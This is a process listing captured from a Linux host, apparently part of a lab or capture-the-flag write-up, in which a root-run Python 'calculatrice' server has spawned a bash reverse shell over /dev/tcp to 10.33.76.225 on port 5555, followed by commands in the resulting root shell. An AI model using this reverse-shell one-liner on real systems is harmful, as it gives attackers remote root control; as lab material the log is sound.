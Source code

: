 ```bash
root         617       2  0 12:00 ?        00:00:00 [xfs-conv/sda1]
root         618       2  0 12:00 ?        00:00:00 [xfs-reclaim/sda]
root         620       2  0 12:00 ?        00:00:00 [xfs-blockgc/sda]
root         621       2  0 12:00 ?        00:00:00 [xfs-inodegc/sda]
root         622       2  0 12:00 ?        00:00:00 [xfs-log/sda1]
root         623       2  0 12:00 ?        00:00:00 [xfs-cil/sda1]
root         624       2  0 12:00 ?        00:00:00 [xfsaild/sda1]
root         636       1  0 12:00 ?        00:00:00 /sbin/auditd
root         662       1  0 12:00 ?        00:00:00 /usr/bin/python3 -s /usr/sbin/firewalld --nofork --nopid
root         663       1  0 12:00 ?        00:00:00 /usr/sbin/rsyslogd -n
root         667       1  0 12:00 ?        00:00:00 /usr/lib/systemd/systemd-logind
chrony       669       1  0 12:00 ?        00:00:00 /usr/sbin/chronyd -F 2
dbus         674       1  0 12:00 ?        00:00:00 /usr/bin/dbus-broker-launch --scope system --audit
dbus         675     674  0 12:00 ?        00:00:00 dbus-broker --log 4 --controller 9 --machine-id 2be0dbf715d243219c67fc617ced3912 --max-bytes 536870912 --max-fds 4096 --max-matches 131072 --audit
root         678       2  0 12:00 ?        00:00:00 [irq/18-vmwgfx]
root         679       2  0 12:00 ?        00:00:00 [card0-crtc0]
root         681       2  0 12:00 ?        00:00:00 [card0-crtc1]
root         683       2  0 12:00 ?        00:00:00 [card0-crtc2]
root         684       2  0 12:00 ?        00:00:00 [card0-crtc3]
root         687       2  0 12:00 ?        00:00:00 [card0-crtc4]
root         689       2  0 12:00 ?        00:00:00 [card0-crtc5]
root         690       2  0 12:00 ?        00:00:00 [card0-crtc6]
root         691       2  0 12:00 ?        00:00:00 [card0-crtc7]
root         693       1  0 12:00 ?        00:00:00 /usr/sbin/NetworkManager --no-daemon
root         701       1  0 12:00 ?        00:00:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root         708       1  0 12:00 ?        00:00:00 /usr/sbin/crond -n
root         709       1  0 12:00 tty1     00:00:00 /sbin/agetty -o -p -- \u --noclear - linux
root         712       1  0 12:00 ?        00:00:00 /usr/lib/systemd/systemd-journald netdata
netdata      718       1  0 12:00 ?        00:00:06 /usr/sbin/netdata -P /run/netdata/netdata.pid -D
netdata      743     718  0 12:00 ?        00:00:00 /usr/sbin/netdata --special-spawn-server
netdata      969     718  0 12:00 ?        00:00:00 bash /usr/libexec/netdata/plugins.d/tc-qos-helper.sh 1
netdata      971     718  0 12:00 ?        00:00:04 /usr/libexec/netdata/plugins.d/apps.plugin 1
netdata      975     718  0 12:00 ?        00:00:00 /usr/libexec/netdata/plugins.d/debugfs.plugin 1
root         977     718  0 12:00 ?        00:00:01 /usr/libexec/netdata/plugins.d/ebpf.plugin 1
netdata      979     718  0 12:00 ?        00:00:01 /usr/libexec/netdata/plugins.d/go.d.plugin 1
netdata      987     718  0 12:00 ?        00:00:00 /usr/libexec/netdata/plugins.d/systemd-journal.plugin 1
root        1721     701  0 12:02 ?        00:00:00 sshd: joris [priv]
joris       1726       1  0 12:02 ?        00:00:00 /usr/lib/systemd/systemd --user
joris       1728    1726  0 12:02 ?        00:00:00 (sd-pam)
joris       1735    1721  0 12:02 ?        00:00:00 sshd: joris@pts/0
joris       1736    1735  0 12:02 pts/0    00:00:00 -bash
root        1842       1  0 12:05 ?        00:00:00 /usr/bin/python /opt/calculatrice/server.py
root        1847    1842  0 12:05 ?        00:00:00 sh -c sh -i >& /dev/tcp/10.33.76.225/5555 0>&1
root        1848    1847  0 12:05 ?        00:00:00 sh -i
root        1871       2  0 12:11 ?        00:00:00 [kworker/0:1-events_freezable_power_]
root        1917       2  0 12:17 ?        00:00:00 [kworker/0:0-mm_percpu_wq]
root        1924    1848  0 12:19 ?        00:00:00 ps -ef

sh-5.1# ps -ef | grep calculatrice
ps -ef | grep calculatrice
root        1842       1  0 12:05 ?        00:00:00 /usr/bin/python /opt/calculatrice/server.py
root        1906    1848  0 12:15 ?        00:00:00 grep calculatrice
```
